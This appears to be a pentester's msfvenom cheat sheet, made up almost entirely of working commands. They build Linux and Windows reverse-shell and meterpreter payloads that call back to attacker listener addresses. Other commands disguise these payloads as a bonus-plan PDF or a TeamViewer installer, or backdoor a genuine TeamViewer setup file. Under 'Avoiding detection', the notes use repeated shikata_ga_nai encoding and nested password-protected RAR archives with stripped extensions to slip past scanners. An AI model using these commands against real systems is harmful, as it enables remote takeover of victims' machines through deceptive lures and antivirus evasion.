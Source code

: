 
## List payloads

```
msfvenom -l payloads
```

## Build payload

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

## Build Windows payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

## No Encoding

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

## With Encoding

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

## Multi-run Encoding

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## Avoiding detection

### Install backdoor into normal executable

```
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

### Create payload requiring a password

```
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

Install winrar
```
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
```

Archive payload with password
```
rar a ~/test.rar -p ~/test.js
```

Remove RAR extension and Archive a second time
```
mv test.rar test
rar a test2.rar -p test
```

Remove RAR extension a last time
```
mv test2.rar test2
```

